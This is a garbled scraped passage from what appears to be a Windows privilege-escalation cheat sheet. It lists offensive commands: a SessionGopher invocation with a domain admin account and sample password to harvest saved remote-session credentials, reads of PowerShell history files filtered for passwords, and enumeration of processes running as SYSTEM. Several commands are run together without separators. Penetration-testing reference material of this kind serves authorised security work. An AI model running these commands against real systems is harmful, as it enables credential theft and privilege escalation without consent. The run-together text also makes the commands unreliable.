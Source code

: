 https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1Import-Module path\to\SessionGopher.ps1;Invoke-SessionGopher  -AllDomain -oInvoke-SessionGopher  -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss

### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='56'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1610' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#powershell-history)Powershell history

type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='57'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1618' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---processes-enumeration-and-tasks)EoP - Processes Enumeration and Tasks

What processes are running?
tasklist /v
net start

sc queryGet-ServiceGet-ProcessGet-WmiObject  -Query "Select * from Win32_Process"  |  where {$_.Name  -notlike  "svchost*"} | Select Name, Handle,  @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize

Which processes are running as "system"
tasklist /v /fi "username eq system"
Do you have powershell magic?
